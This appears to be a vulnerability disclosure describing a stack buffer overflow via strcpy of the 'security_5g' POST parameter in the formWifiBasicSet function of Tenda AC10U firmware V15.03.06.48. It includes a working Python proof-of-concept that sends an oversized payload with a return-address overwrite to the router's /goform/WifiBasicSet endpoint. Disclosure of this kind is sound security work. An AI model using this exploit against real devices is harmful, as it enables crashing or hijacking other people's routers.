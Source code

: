 ## Overview

- Firmware download website: https://www.tendacn.com/download/detail-3170.html

## Affected version

AC10U v1.0 Firmware  V15.03.06.48

## Vulnerability details

The Tenda AC10U v1.0 V15.03.06.48 firmware has a stack overflow vulnerability in the `formWifiBasicSet` function. The `security_5g` variable receives the `security_5g` parameter from a POST request and is later assigned to the `param_5g` variable, which is fixed at 256 bytes. However, since the user can control the input of `security_5g`, the statement `strcpy(param_5g, security_5g);` can cause a buffer overflow. The user-provided `security_5g` can exceed the capacity of the `param_5g` array, triggering this security vulnerability.

![image-20240309193205961](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240309193205961.png)

![image-20240309193158542](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240309193158542.png)

![image-20240309193217279](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240309193217279.png)

## PoC

```python
import requests
from pwn import *

url = 'http://192.168.84.101/goform/WifiBasicSet'
payload = b'a' * 500 + p32(0xdeadbeef)
data = {
    'security_5g':payload, 
    'hideSsid':'1', 
    'ssid':'1',
    'security':'1', 
    'wrlPwd':'1', 
    'hideSsid_5g':'1', 
    'ssid_5g':'1', 
    'wrlPwd_5g': '1'
}

requests.post(url, data=data)
```

![image-20240304213056127](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240304213056127.png)